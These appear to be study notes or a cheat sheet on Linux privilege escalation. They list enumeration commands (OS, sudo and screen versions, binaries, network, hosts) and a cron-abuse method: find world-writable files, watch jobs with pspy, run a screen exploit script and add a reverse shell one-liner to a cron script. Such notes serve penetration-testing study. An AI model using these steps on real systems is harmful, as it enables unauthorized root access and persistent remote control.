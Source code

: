 ```$ cat /etc/os-release```

## strace

We can use the diagnostic tool strace on Linux-based operating systems to track and analyze system calls and signal processing.

```$ strace ping -c1 10.129.112.20```



## Screen Version Identification

```$ screen -v```

```$ ./screen_exploit.sh ```


## Sudo Version

```$ sudo -V```



## Binaries

```$ ls -l /bin /usr/bin/ /usr/sbin/```


## Network

```$ ip a```

```$ cat /etc/hosts  (  hosts accesed recently   )```



## Cron Job Abuse

        
- The crontab command can create a cron file in /var/spool/cron for the specific user that creates it
- Each entry in the crontab file requires six items in the following order: 
    - minutes
    - hours 
    - days
    - months
    - weeks 
    - commands

```$ ls -la /etc/cron.daily/```



First, let's look around the system for any writeable files or directories.

```$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null```

We can confirm that a cron job is running using pspy,

```$ ./pspy64 -pf -i 1000```

! The -pf flag tells the tool to print commands and file system events and -i 1000 tells it to scan profcs every 1000ms (or every second).

modify the script to add a Bash one-liner reverse shell.
```